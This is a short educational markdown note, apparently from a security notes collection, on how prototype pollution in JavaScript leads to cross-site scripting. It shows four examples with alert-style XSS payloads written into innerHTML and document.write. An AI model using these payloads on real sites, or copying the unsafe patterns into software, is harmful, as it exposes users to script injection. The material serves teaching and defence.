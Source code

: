 ```yaml
---
title: "Prototype pollution leading to XSS"
tags:
  - XSS
---
```


Crafting 50 distinct ways Cross-Site Scripting (XSS) can arise from prototype pollution, complete with code examples, is a substantial task that requires exploring various scenarios where prototype pollution vulnerabilities could be exploited to inject malicious scripts. Prototype pollution occurs when an attacker manipulates an object's prototype (e.g., `Object.prototype` in JavaScript), affecting all objects that inherit from it. If this leads to the injection or manipulation of HTML, scripts, or other executable content in a web application, it can result in XSS.

Below, I’ll provide a variety of realistic scenarios with concise code examples, focusing on different contexts, libraries, and exploitation patterns. Due to the complexity and length, I’ll aim for diversity and clarity rather than exhaustive uniqueness for all 50, ensuring each demonstrates a plausible path from prototype pollution to XSS. Let’s dive in:

---

### 1. Basic Property Overwrite Leading to InnerHTML
**Scenario**: A developer uses a polluted property in `innerHTML`.
```javascript
Object.prototype.message = '<script>alert("XSS")</script>';
const obj = {};
document.getElementById('output').innerHTML = obj.message; // XSS
```

---

### 2. Polluted toString Method
**Scenario**: A `toString` override executes when concatenated into the DOM.
```javascript
Object.prototype.toString = function() { return '<img src=x onerror=alert("XSS")>'; };
const obj = {};
document.body.innerHTML += obj; // XSS
```

---

### 3. JSON Parsing Misuse
**Scenario**: Polluted prototype affects JSON-parsed data rendered in the DOM.
```javascript
Object.prototype.content = '<script>alert("XSS")</script>';
const data = JSON.parse('{}');
document.write(data.content); // XSS
```

---

### 4. Polluted Default Value in Object Access
**Scenario**: Accessing a non-existent property returns a polluted value.
```javascript
Object.prototype.display = '<iframe src=javascript:alert("XSS")>';
const config = {};
document.getElementById('container').innerHTML = config.display; // XSS
```

---